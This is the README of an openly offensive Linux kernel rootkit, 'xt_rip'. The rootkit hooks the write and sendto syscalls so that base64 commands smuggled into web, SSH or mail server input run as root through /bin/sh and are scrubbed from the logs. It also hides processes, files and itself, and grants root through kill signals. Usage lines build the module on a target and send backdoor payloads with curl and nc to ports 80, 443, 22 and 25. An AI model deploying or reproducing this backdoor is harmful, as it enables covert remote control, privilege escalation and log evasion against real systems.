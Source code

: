 # xt_rip LKM rootkit
This rootkit is an attempt to use `write` and `sendto` syscalls as input vectors for a remote backdoor.

A lot of user-provided and unsafe data gets processed through those syscalls since they are used to log connections to web server, failed ssh connections etc.

The module replaces the original syscalls by our own functions which looks for a pattern, extract it so it can be parsed as a C&C command, and strips it from the original buffer so it (hopefully) does not appear anywhere in the logs.

## Features
- [x] All features from Diamorphine
    - [x] Hide process with `kill -31 $PID`
    - [x] Hide LKM with `kill -63 1`
    - [x] Give root with `kill -64 1`
    - [x] Hide files and dirs with name matchin prefix
- [x] Hook `write` and `sendto`
    - [x] Read and strip payload from given userland buffer
    - [x] Decode base64 payload
    - [x] Pass payload to /bin/sh
    - [x] Hide generated process
    - [ ] Add mandatory checksum to payload
- [ ] Hide arbitrary network connection (http://books.gigatux.nl/mirror/networksecuritytools/0596007949/networkst-CHP-7-SECT-4.html)

## Usage
```sh
## On the target
# Install dependencies (apt only), build
# and install module
make

## From the C&C
# Store marker
$ export XTRIP_MARKER=__8231061ecdb0740331d289cd1051e197afc568b5__

# Generate payload
$ ./client 'id > /tmp/id'
__8231061ecdb0740331d289cd1051e197afc568b5__AwqGpIaVDg1Wl2LK__8231061ecdb0740331d289cd1051e197afc568b5__

# Generate payload and send it to target
# through HTTP on port 80
$ ./client 'id > /tmp/id' $TARGET

# Manually send payload to web server
# on port 443
$ curl -skA"$(./client 'id > /tmp/id')" https://$TARGET/

# Send payload to SSH on port 22
$ echo "$(./client 'id > /tmp/id')" | nc $TARGET 22

# Send payload to Exim4 on port 25
$ echo "$(./client 'id > /tmp/id')" | nc $TARGET 25
```